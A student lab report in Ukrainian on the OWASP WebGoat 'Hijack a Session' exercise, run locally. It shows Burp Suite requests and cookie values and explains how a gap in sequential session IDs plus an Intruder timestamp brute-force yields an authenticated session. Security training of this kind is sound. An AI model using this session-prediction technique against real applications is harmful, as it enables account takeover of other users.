








## Мета роботи

Дослідити вразливість, пов’язану з використанням передбачуваних
ідентифікаторів сесій, та отримати доступ до автентифікованої сесії
в навчальному середовищі OWASP WebGoat.

## Використане програмне забезпечення

- Kali Linux;
- Docker;
- OWASP WebGoat;
- Burp Suite Community Edition;
- Visual Studio Code.

> Усі дії виконувалися виключно в локальному навчальному середовищі
> OWASP WebGoat.

## Хід виконання роботи

### 1. Запуск OWASP WebGoat

OWASP WebGoat було запущено в контейнері Docker. Після запуску
застосунок став доступним за адресою:

```text
http://www.webgoat.local:8080/WebGoat/
```

### 2. Відкриття вкладки «Hijack a Session»

У головному меню OWASP WebGoat було відкрито розділ:

```text
(A1) Broken Access Control → Hijack a Session
```
Та ввели логін та пароль. Ми повинні отримати помилку.


### 3. Перехоплення та аналіз HTTP-запиту в Burp Suite

Після введення довільного логіна й пароля у формі завдання було натиснуто кнопку **Access**. У результаті WebGoat відобразив повідомлення про неправильні облікові дані.

Для перегляду запиту, який надсилається вебзастосунком, було відкрито **Burp Suite** та виконано перехід до вкладки:

```text
Proxy → HTTP history
```

У журналі HTTP-запитів було знайдено запит із методом `POST`, який надсилався на адресу:

```http
POST /WebGoat/HijackSession/login HTTP/1.1
Host: www.webgoat.local:8080
```

У тілі запиту передавалися введені ім’я користувача та пароль:

```text
username=studentkor&password=pass123
```

Після надсилання запиту сервер повернув відповідь зі статусом:

```http
HTTP/1.1 200 OK
```

У тілі відповіді містилося повідомлення про те, що завдання ще не виконано, а введені дані є неправильними:

```json
{
  "lessonCompleted": false,
  "feedback": "Sorry the solution is not correct, please try again."
}
```

Також у заголовку відповіді `Set-Cookie` було виявлено cookie з назвою `hijack_cookie`:

```http
Set-Cookie: hijack_cookie=3412514879567400878-1784114757415
```

Значення `hijack_cookie` складається з двох частин, розділених дефісом. Перша частина є ідентифікатором сесії, а друга частина має вигляд часової мітки в мілісекундах. Подальше дослідження цієї cookie дасть змогу визначити закономірність її створення та знайти значення автентифікованої сесії.



### 4. Повторне надсилання запиту за допомогою Repeater

Для подальшого дослідження значення `hijack_cookie` перехоплений POST-запит було передано до інструмента **Repeater**. Для цього в журналі HTTP-запитів **Burp Suite** було натиснуто правою кнопкою миші на потрібному запиті та обрано команду:

```text
Send to Repeater
```

Після цього запит став доступним у вкладці **Repeater**. Цей інструмент дає змогу повторно надсилати однаковий HTTP-запит без необхідності щоразу вводити дані у формі WebGoat.

У запиті було залишено початкові параметри:

```http
POST /WebGoat/HijackSession/login HTTP/1.1
Host: www.webgoat.local:8080
```

Тіло запиту містило довільні облікові дані:

```text
username=studentkor&password=pass123
```

Для створення нового значення `hijack_cookie` у заголовку `Cookie` залишався лише ідентифікатор поточної сесії WebGoat:

```http
Cookie: JSESSIONID=...
```

Після натискання кнопки **Send** сервер повертав нову відповідь, у заголовку якої містилося значення:

```http
Set-Cookie: hijack_cookie=3412514879567400880-1784114928172
```

Запит було надіслано декілька разів. Кожен повтор зберігався в окремій вкладці **Repeater**, що дало змогу переглянути та порівняти отримані значення `hijack_cookie`.

Під час повторного надсилання було помічено, що обидві частини cookie змінюються за певною закономірністю. Перша частина поступово збільшується, а друга має вигляд часової мітки в мілісекундах. Отримані значення було скопійовано до текстового редактора для подальшого аналізу.



Отримані значення `hijack_cookie` було скопійовано до текстового редактора для подальшого аналізу:

```text
3412514879567400880-1784114928172
3412514879567400882-1784114929686
3412514879567400884-1784114932023
3412514879567400885-1784114933164
3412514879567400886-1784114933893
3412514879567400887-1784114934709
3412514879567400888-1784114935440
3412514879567400889-1784114936143
3412514879567400890-1784114936873
```




Порівняння отриманих значень показало, що `hijack_cookie` складається з двох частин, розділених дефісом:

```text
ідентифікатор сесії-часова мітка
```

Перша частина послідовно збільшується, а друга частина змінюється відповідно до часу створення cookie та має вигляд часової мітки в мілісекундах.

Також у послідовності було виявлено пропущені ідентифікатори:

```text
3412514879567400880
3412514879567400882
```

Між ними відсутнє значення:

```text
3412514879567400881
```

Крім того, між ідентифікаторами:

```text
3412514879567400882
3412514879567400884
```

відсутнє значення:

```text
3412514879567400883
```

Отже, пропущені значення можуть відповідати створеним WebGoat автентифікованим сесіям. Для перевірки одного з них необхідно сформувати відповідне значення `hijack_cookie` та підібрати його часову мітку.

### 5. Формування та перевірка `hijack_cookie` за допомогою Intruder

Після аналізу отриманих значень було встановлено, що між ідентифікаторами:

```text
3412514879567400880
3412514879567400882
```

пропущено значення:

```text
3412514879567400881
```

Цей ідентифікатор було обрано як можливий ідентифікатор автентифікованої сесії. Для перевірки сформованого значення cookie HTTP-запит було передано з **Repeater** до інструмента **Intruder**. Для цього було відкрито контекстне меню запиту та обрано команду:

```text
Send to Intruder
```




У вкладці **Intruder** до заголовка `Cookie` було додано параметр `hijack_cookie`, який містив визначений пропущений ідентифікатор сесії:

```http
Cookie: JSESSIONID=...; hijack_cookie=3412514879567400881-1784114928172
```

Перша частина значення cookie залишалася незмінною:

```text
3412514879567400881
```

Як змінну частину було обрано часову мітку:

```text
1784114928172
```

Часову мітку було позначено як позицію для підстановки значень під час виконання атаки:

```http
hijack_cookie=3412514879567400881-§1784114928172§
```

Інші параметри запиту, зокрема `JSESSIONID`, ім’я користувача та пароль, було залишено без змін.




Після налаштування позиції та набору значень було запущено перевірку за допомогою кнопки **Start attack**. Отримані відповіді аналізувалися за їхньою довжиною та вмістом.

Для правильного значення `hijack_cookie` сервер повернув відповідь зі статусом:

```http
HTTP/1.1 200 OK
```

У тілі відповіді було отримано повідомлення:

```json
{
  "lessonCompleted": true,
  "feedback": "Congratulations. You have successfully completed the assignment."
}
```

Значення:

```json
"lessonCompleted": true
```

підтверджує, що WebGoat прийняв сформовану cookie як ідентифікатор автентифікованої сесії та зарахував виконання завдання.



### 6. Результат виконання та висновок

Після отримання успішної відповіді від сервера було виконано повернення до сторінки завдання **Hijack a Session** у WebGoat.

Індикатор другого етапу змінив колір із червоного на зелений. Це свідчить про те, що WebGoat зарахував практичне завдання як виконане.




У результаті виконання завдання було встановлено, що значення `hijack_cookie` створювалося за передбачуваним алгоритмом і складалося з двох частин:

```text
ідентифікатор сесії-часова мітка
```

Під час аналізу декількох значень cookie було виявлено пропуск у послідовності ідентифікаторів:

```text
3412514879567400880
3412514879567400882
```

На основі цього було визначено ймовірний ідентифікатор автентифікованої сесії:

```text
3412514879567400881
```

Після додавання знайденого ідентифікатора до HTTP-запиту та перевірки часової мітки за допомогою **Burp Suite Intruder** сервер повернув відповідь:

```json
{
  "lessonCompleted": true,
  "feedback": "Congratulations. You have successfully completed the assignment."
}
```

